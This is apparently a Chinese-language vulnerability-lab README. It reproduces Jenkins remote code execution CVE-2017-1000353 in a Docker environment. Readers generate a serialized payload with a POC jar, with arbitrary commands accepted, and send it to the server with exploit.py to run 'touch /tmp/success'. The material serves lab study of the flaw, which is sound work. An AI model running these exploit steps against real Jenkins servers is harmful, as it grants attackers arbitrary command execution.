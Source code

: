 # Jenkins-CI 远程代码执行漏洞（CVE-2017-1000353）

## 原理

参考阅读 https://blogs.securiteam.com/index.php/archives/3171

## 环境搭建

执行如下命令启动jenkins 2.46.1：

```
docker-compose up -d
```

等待完全启动成功后，访问`http://your-ip:8080`即可看到jenkins已成功运行，无需手工安装。

## 测试过程

### 步骤一、生成序列化字符串

参考<https://github.com/vulhub/CVE-2017-1000353>，首先下载[CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)，这是生成POC的工具。

执行下面命令，生成字节码文件：

```bash
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
```

执行上述代码后，生成jenkins_poc.ser文件，这就是序列化字符串。

### 步骤二、发送数据包，执行命令

下载[exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py)，python3执行`python exploit.py http://your-ip:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：

![](1.png)

进入docker，发现`/tmp/success`成功被创建，说明命令执行漏洞利用成功：

![](2.png)
